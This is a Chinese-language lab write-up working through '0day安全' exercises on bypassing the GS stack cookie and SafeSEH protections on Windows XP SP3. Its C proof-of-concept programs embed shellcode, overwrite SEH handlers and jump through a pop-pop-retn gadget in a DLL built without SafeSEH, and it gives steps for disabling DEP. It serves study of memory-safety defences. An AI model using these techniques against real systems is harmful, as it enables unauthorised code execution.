









# 简介
> 在看了《0day安全》的**栈中的守护天使：GS**和**亡羊补牢：SafeSEH**，并将里面的实验做了一遍之后，总结一下遇到的坑和一些失败的经验。文章将从下面几点进行讲述：

- 1. 如何使用VS2019编译能在windows XP SP3上运行的程序。如何对程序和电脑进行GS，SafeSEH，DEP进行设置
- 2. GS的原理和绕过方法（实验失败）
- 3. SafeSEH的原理和绕过方法
<!--more-->

# 环境

- 虚拟机：VMware 15 Pro
- 运行环境：Windows XP SP3
- 编译软件：vs2019和vc6.0
- 调试软件：ollydbg
- IDA pro 7.0
- 所有代码，软件都在的[百度云链接中](https://pan.baidu.com/s/1ZxsGvBK_2HaA8MNYFANVzA) 提取码：f91a

# VS2019和windows系统的一些设置

## 编译能在XP上运行的程序

VS忽略4996警告（使用strcpy会产生4996警告）： 程序开头添加#pragma warning(disable : 4996)

当直接使用VS2019编译最简单的HelloWorld之后，在xp中运行会报下面的错误不是有效的Win32应用程序。我从网上找到了一个老哥写的配置属性。只需要在VS2019中按下面步骤进行操作就可以了。视图-》其他窗口-》属性管理器-》添加现有属性 把支持xp的属性表WinXP.props（这个属性表在百度云盘中）添加进去。



## 对应安全设置的关闭

- 禁用优化：项目--》属性--》c/c++--》优化--》优化设置为/Od
- GS设置（默认开启）： 项目--》属性--》c/c++--》代码生成--》安全检查
- SafeSEH关闭（默认开启）：项目--》属性--》链接器--》命令行--》将 /SAFESEH:NO 复制到“其它选项（D)”框中，然后点击应用
- VS2019编译DEP关闭（默认开启）：项目--》属性--》链接器--》高级--》数据执行保护(DEP)  设置为 否 (/NXCOMPAT:NO)
- XP DEP关闭（默认对核心模块开启）：在Windows系统中 我的电脑右键属性-》高级-》启动和故障恢复设置-》系统启动，编辑-》添加/noexecute=Alwayoff。如下图所示。



---

# GS保护原理

## Security cookie

GS编译选项为每个函数调用增加了一些额外操作，用以检测栈中的溢出。
- 在所有函数调用前，在EBP之前向栈中压入一个额外的随机DWORD，这个随机数就是Security cookie（也叫canary）
- 在.data中也存了一个Security cookie副本。当存在溢出时，溢出数据会先覆盖cookie，之后才会覆盖EBP和EIP（返回地址）。
- 在函数返回前会对cookie进行校验。如果栈中的cookie和.data中存的cookie不相同，将会进入异常处理流程。

## Security Cookie产生细节

- 系统以.data节的第一个双字做为Cookie的种子，或称原始Cookie
- 在程序每次运行时Cookie的种子都不同
- 在栈帧初始化以后系统用ESP异或种子，做为当前函数的Cookie，以此来作为不同函数的区别，并增加随机性
- 在函数返回前，用ESP还原出Cookie的种子


## 不会使用GS的情况
使用GS必定会对程序性能产生影响，所以编译器并不会对所有函数都使用GS进行保护，当然可以用#paragma struct_gs_check(on)会对任意类型函数添加security Cookie进行保护。下面是不会应用GS的情况
- 函数不包括缓冲区
- 函数被定义为具有变量参数列表
- 函数使用无保护的关键字标记
- 函数在第一个语句中包含内嵌汇编代码
- 缓冲区不是8字节类型且大小不大于4字节

## 变量重新排序

在编译的时根据局部变量的类型对变量在栈帧中的位置进行位置调整，将字符串变量移动到栈帧的高地址，可以防止字符串溢出时破坏其他变量。同时将指针参数和字符串参数复制到内存中的低地址，防止参数被破坏。如下图未使用GS保护的栈和使用GS保护的栈的对比



# 绕过GS保护（失败）

## 利用未保护的内存突破GS

类似前几篇的溢出直接覆盖到EIP就能成功

## 覆盖虚函数突破GS

没有实验过

## 同时替换栈中和.data中的cookie突破GS

没实验过

## 利用异常处理器绕过GS

如果只是将SEH_handler覆盖为shellcode地址在win xp sp3上并不能成功，因为在sp3上负责异常分发的（不知道这样说对不对）ntdll.dll启用了SafeSEH，会对SEH_handler指向的异常处理函数的地址进行校验，如果是在栈的地址范围内将不会得到执行。所以我只能从侧面验证利用异常处理器绕过GS是否可行。我将用一个栈外的地址来覆盖SEH_handler，如果程序能运行到这个地址，则认为在没有SafeSEH保护的情况下可以利用异常处理器来绕过GS。

```c
//文件名GS_SEH.cpp
#include <string.h>
#pragma warning(disable : 4996)
char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xCC\xCC\xCC\xCC"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xA0\xFE\x12\x00"//address of shellcode
//"\x13\x13\x13\x00"//栈外的地址
;

void test(char* input)
{
	char buf[200];
	strcpy(buf, input);
	strcat(buf, input);
}
void main()
{
	test(shellcode);
}
```
编译代码选项
- 1.启用GS
- 2.关闭SafeSEH
- 3.关闭DEP
上面代码在test函数中存在典型的栈溢出漏洞，strcpy操作后buf变量会被溢出，当字符串足够长时将覆盖SEH异常处理函数。同时也会覆盖input地址，造成strcat从一个非法地址读取数据，触发异常。用OD加载程序之后，按F9运行程序。如下图会产生访问异常并且确实已经将SEH成功覆盖为0x0012FEA0。按照提示**shift+F9**让异常处理来接管程序，OD提示**Debugged program was unable process exection**，并不能成功让异常处理程序执行。



为了验证之前的猜想，将原本指向shellcode的地址修改为"\x13\x13\x13\x00",并在这个地址添加硬件中断，方便验证是否能通过SEH来控制程序。如下图，在触发异常后，程序果然运行到了我们设置的0x00131313地址。暂时我们可能还没办法利用SEH绕过GS，因为实际上我们是需要绕过SafeSEH。总体来说我们还是验证了GS的功能和单纯GS绕过的办法。



# SafeSEH保护原理

编译器在编译程序的时候将所有的异常处理函数地址提取出来，编入一张安全SEH表，并将这张表放到程序的映像里面。当程序调用异常处理函数的时候会将函数地址与安全SEH表进行匹配。异常处理函数的调用是通过RtlDispatchException()函数处理实现的。RtlDispatchException()函数保护的流程

- 1. 检查异常处理链是否位于当前栈中。如果不在当前栈中，程序将终止异常处理函数的调用
- 2. 通过查询线程信息块（ TEB）中的FS:[4]和FS:[8]可以获得当前程序栈的高地址和低地址。检查异常处理函数指针是否指向当前程序的栈中。如果指向当前程序的栈中将终止异常处理函数的调用（这就是前面利用SEH绕过GS无法成功的原因）。
- 3. 前两个检查通过后会调用RtlIsValidHandler()来对异常处理函数(SEH_handler)的有效性进行验证。

RtlIsValidHandler首先判断处理函数地址是否在加载模块的内存空间，如果属于加载模块的内存空间，将进行下面的校验

- 1. 判断程序是否设置了IMAGE_DLLCHARACTERISTICS_NO_SEH标识。如果设置了，这个程序内的异常会被忽略。函数直接返回失败
- 2. 检查程序是否包含安全SEH表。如果包含SEH表，这将当前的异常处理函数地址与该表进行匹配，匹配成功则返回校验成功，匹配失败则返回校验失败。
- 3. 判断是否设置了ILonly表示。如果设置了，表明只包含.NET编译的中间语言，直接返回失败。
- 4. 判断异常处理函数是否位于不可执行页上。当异常处理函数地址位于不可执行页上时，检验函数检查DEP是否开启，如果系统未开启DEP则返回成功，否则程序抛出访问违例。

当异常处理函数的地址不在加载模块的内存空间中时，检验函数直接进行DEP检查
- 1. 判断异常处理函数是否位于不可执行页上。当异常处理函数地址位于不可执行页上时，检验函数检查DEP是否开启，如果系统未开启DEP则返回成功，否则程序抛出访问违例。
- 2. 判断系统是否允许跳转到加载模块的内存空间外执行，如果允许则返回校验成功，否则校验失败。

综上所述：总共有3种情况会允许异常处理函数的运行以及利用的可行性

- 1. 异常处理函数位于加载模块内存范围之外，DEP关闭。这种情况只需要在加载模块范围外找到一个跳板指令就可以转到shellcode执行。
- 2. 异常处理函数位于加载模块之内，相应模块未启用SafeSEH(安全SEH表为空)，同时相应模块不是纯IL。这种情况可以利用未启用SafeSEH的模块做为跳板转入到shellcode执行
- 3. 异常处理函数位于加载模块内存范围内，相应模块启用SafeSEH，异常处理函数地址包含在安全SEH表中。这种情况不是很好利用（我暂时不会）
- 4. 还有一种情况是，SEH中的异常函数指针指向堆区，异常处理会直接跳转过去执行。

# 绕过SafeSEH

## 攻击返回地址绕过SafeSEH
没有开启GS的时候，可以直接覆盖返回地址

## 利用虚函数绕过SafeSEH
没有触发异常，实验也没做过

## 从堆中绕过SafeSEH

就像前面第4点说的，将shellcode放在堆区，如果覆盖SEH_handler指向堆区就能直接执行。这里有个小坑的地方就是，调试状态下的堆区和正常执行的堆区地址是不一样的。

```c
//SEH_heap.cpp
#include <stdlib.h>
#include<stdio.h>
#include <string.h>
#pragma warning(disable : 4996)
char shellcode[] =
"\xba\xcb\xd0\xfc\x46\xd9\xca\xd9\x74\x24\xf4\x5b\x29"
"\xc9\xb1\x31\x31\x53\x13\x03\x53\x13\x83\xeb\x37\x32"
"\x09\xba\x2f\x31\xf2\x43\xaf\x56\x7a\xa6\x9e\x56\x18"
"\xa2\xb0\x66\x6a\xe6\x3c\x0c\x3e\x13\xb7\x60\x97\x14"
"\x70\xce\xc1\x1b\x81\x63\x31\x3d\x01\x7e\x66\x9d\x38"
"\xb1\x7b\xdc\x7d\xac\x76\x8c\xd6\xba\x25\x21\x53\xf6"
"\xf5\xca\x2f\x16\x7e\x2e\xe7\x19\xaf\xe1\x7c\x40\x6f"
"\x03\x51\xf8\x26\x1b\xb6\xc5\xf1\x90\x0c\xb1\x03\x71"
"\x5d\x3a\xaf\xbc\x52\xc9\xb1\xf9\x54\x32\xc4\xf3\xa7"
"\xcf\xdf\xc7\xda\x0b\x55\xdc\x7c\xdf\xcd\x38\x7d\x0c"
"\x8b\xcb\x71\xf9\xdf\x94\x95\xfc\x0c\xaf\xa1\x75\xb3"
"\x60\x20\xcd\x90\xa4\x69\x95\xb9\xfd\xd7\x78\xc5\x1e"
"\xb8\x25\x63\x54\x54\x31\x1e\x37\x32\xc4\xac\x4d\x70"
"\xc6\xae\x4d\x24\xaf\x9f\xc6\xab\xa8\x1f\x0d\x88\x47"
"\x6a\x0c\xb8\xcf\x33\xc4\xf9\x8d\xc3\x32\x3d\xa8\x47"
"\xb7\xbd\x4f\x57\xb2\xb8\x14\xdf\x2e\xb0\x05\x8a\x50"
"\x67\x25\x9f\x32\xe6\xb5\x43\x9b\x8d\x3d\xe1\xe3"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xB8\x63\x15\x00"//正常堆地址
//"\xb8\x59\x15\x00"//调试状态堆地址
;
void test(char* input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero++;
	zero = zero / (zero - 1);
}

void main()
{
	char* buf = (char*)malloc(500);
	//__asm int 3
	printf("buf address:0x%x\n", buf);
	strcpy(buf, shellcode);
	test(shellcode);
}

```
实验代码解释
- 1. 申请500字节存放shellcode
- 2. test函数中的strcpy存在溢出漏洞，用超长的字符串造成溢出覆盖SEH
- 3. 触发除零溢出（编译时要禁用优化）,使异常处理函数得以执行，成功执行shellcode

实验环境
- 系统：windows xp sp3
- 编译器：VS2019
- 编译选项：启用GS,启用SafeSEH，禁用优化，禁用DEP
- build版本：release版本。

实验过程

- 1. 找到堆分配的首地址。使用OD不知道函数的入口地址的时候可以配合IDA找到地址，然后在堆分配函数之后下断点，执行之后EAX就保存着堆的首地址。因为调试状态和正常运行时堆的分配是不同的，所以为了实验更简单，直接输出了堆的首地址。在我的虚拟机上调试状态堆地址是0x001559B8，正常执行时堆地址是0x001563B8
- 2. 确定需要多长的字符串才能覆盖到SEH_Handler。可以用前几篇文章的方法先生成字符串确定需要的字符串长度。

如下图为执行到堆栈时的图。按F9就能顺利弹出计算器。当直接执行SafeSEH_heap.exe时需要用cmd来运行，否则只会一闪而过。



## 利用未启用SafeSEH模块绕过SafeSEH
如果能够找到一个未启用SafeSEH的模块，可以利用未启用的模块跳转到Shellcode。这次实验要编译一个未启用SafeSEH的dll和一个调用这个dll存在漏洞的程序

```c
//SEH_NOSafeSEH_JUMP.cpp
#include "stdafx.h"
BOOL APIENTRY DllMain( HANDLE hModule,DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    return TRUE;
}
void jump()
{
__asm{
	pop eax
	pop eax
	retn
	}
}
```
```c
//SEH_NoSafeSEH.cpp
#include <string.h>
#include<stdio.h>
#include <windows.h>
#include <tchar.h>
#pragma warning(disable : 4996)
char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x68\x10\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xE9\x1F\xFF\xFF\xFF"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}
void test(char* input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	__try
	{
		zero = 1 / zero;
	}
	__except (MyException())
	{
	}
}
int main()
{
	HINSTANCE hInst = LoadLibrary(_T("SEH_NOSafeSEH_JUMP.dll"));//load No_SafeSEH module
	char str[200];
	test(shellcode);
	return 0;
}
```
实验代码解释

- 1. 第一段代码是DLL使用vc6.0编译，同时设置基地址未0x11120000。工程--》设置--》切换到连接选项卡--》输入框中添加/base:"0x11120000"
- 2. 第二段代码对应调用的DLL，存在漏洞的代码。启用GS,启用SafeSEH,禁用优化，禁用DEP。test函数中明显存在一个栈溢出漏洞，最后利用除零来触发异常。但是我实际按照书上的代码操作的时候，因为shellcode太长，复制的时候向0x00130000进行复制，先触发了访问异常。所以和书上的情况有些不同，进行了适当的调整，将shellcode反正了前面。

实验过程
- 1.用OD加载SHE_NOSafe.exe并运行
- 2.利用OllySSEH插件（百度云中也放了）进行扫描，查看程序和DLL是否使用了SafeSEH。/SafeSEH OFF表示未启用SafeSEH，这种就可以做为跳板。/SafeSEH ON启用了SafeSEH，右键可以查看SEH表的注册情况。No SEH不支持SafeSEH，即IMAGE_DLLCHARACTERISTICS_NO_SEH标志位被设置，模块内的异常会被忽略，不能做为跳板。Error 读取错误。如下图所示。
- 3.查找SEH_NoSafeSEH_JUMP.dll中pop pop retn的地址。可以使用OllyFindAddr插件--》OverFlow return address--》Find POP RETN--》Count of pop填2。可以查找全范围内的所有pop pop retn的地址，这里使用0x11121068做为我们的跳板






- 4.确定Shellcode位置。因为0x00130000地址不能读写，只能将shellcode安排在前面。再用跳转指令回到shellcode。shellcode布局：[32个字节0x90][168个字节shellcode][16字节0x90][4字节 pop pop retn地址][5字节jmp指令][168字节填充]。具体流程如下所示。在触发异常后，利用没有启用SafeSEH的模块中的pop pop retn指令使EIP指向SEH_handler+4的地址，再用jmp指令跳转到shellcode之前，成功执行shellcode。



## 利用加载模块之外的地址绕过SafeSEH

类似前面利用没有启用SafeSEH的模块来绕过，利用插件ollyFindAddr可以来找到可以利用地址。

# 总结

这次实验的大部分问题出在了编译程序上，还有就是没注意到书上GS的实验都是在windows2000上进行的，在windows xp sp3上并不能成功的绕过。在绕过GS和SafeSEH的时候遇到可用空间不住，可以用jmp指令来跳转到前面或后面空间中进行利用。